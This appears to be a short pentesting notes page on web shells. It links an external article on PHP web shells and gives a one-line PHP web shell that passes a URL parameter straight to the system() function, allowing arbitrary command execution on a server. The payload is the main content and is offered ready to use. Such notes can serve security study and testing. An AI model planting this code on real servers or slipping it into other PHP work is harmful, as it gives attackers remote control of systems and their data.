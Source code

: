 # Web Shells

Useful info here:

{% embed url="https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/" %}

Simple PHP based web shell:

```
<?php system($_GET['cmd']);?>
```
